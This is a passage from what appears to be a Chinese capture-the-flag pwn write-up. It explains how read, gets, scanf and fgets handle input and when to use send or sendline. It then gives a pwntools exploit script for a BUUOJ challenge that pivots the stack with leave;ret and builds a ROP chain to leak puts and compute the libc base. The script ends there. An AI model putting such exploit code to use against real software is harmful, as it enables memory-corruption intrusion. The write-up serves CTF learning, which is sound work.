 ③当 count 字节数小于你所输入的字节数，那么没有输入进指定地址的内容，都会停留在输入缓冲区，有可能会影响之的输入。

**但值得一提的是使用 read 函数，我们可以用 send 来发送数据，这样就可以确保万无一失**。

**如果是 gets 函数或者 scanf 函数**，我们没有办法选择，**只能使用 sendline**，这两种函数只有遇见 sendline 发送的回车，才会停止读入。

**gets 函数会清空缓冲区里的回车，而 scanf 则不会清空回车。因此 scanf 可能会因为没有清空回车的缘故，对之后的程序输入可能造成影响，但是如果 gets 函数溢出了数组限制的话，会异常的在输入的字符串结尾填上一个 00 存入栈中。此时的 00 也有可能会覆盖原本栈中的数据**，另外就是遇见 fgets 的话，也是没的选，只能用 sendline

exp:

```plain
#coding=utf-8 
import os
import sys
import time
from pwn import *
from ctypes import *

context.log_level='debug'
context.arch='amd64'

p=remote("node4.buuoj.cn",26741)
elf = ELF('./pwn')
libc = ELF('./libc-2.23.so')

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sls     = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
def dbg():
    gdb.attach(p,'b *$rebase(0x13aa)')
    pause()

bank=0x0000000000601080
leave_ret=0x0000000000400699
main=elf.symbols['main']
leak('main',main)
rdi_addr=0x0000000000400703
rsi_addr=0x0000000000400701
puts_got=0x0000000000601018
ret_addr=0x000000000040069A

puts_plt=0x00000000004004E0
leak('puts_plt',puts_plt)
ru("Welcome to Stack bank,Tell me what you want\n")
pl = 'a'*0x60+p64(bank+0xd0)+p64(leave_ret)
s(pl)
#dbg()
ru("Done!You can check and use your borrow stack now!\n")
pl2='a'*0xd0+p64(0)+p64(rdi_addr)+p64(puts_got)+p64(puts_plt)+p64(main)
s(pl2)
puts=uu64(r(6))
leak('puts',puts)

libc_base=puts-libc.symbols['puts']
```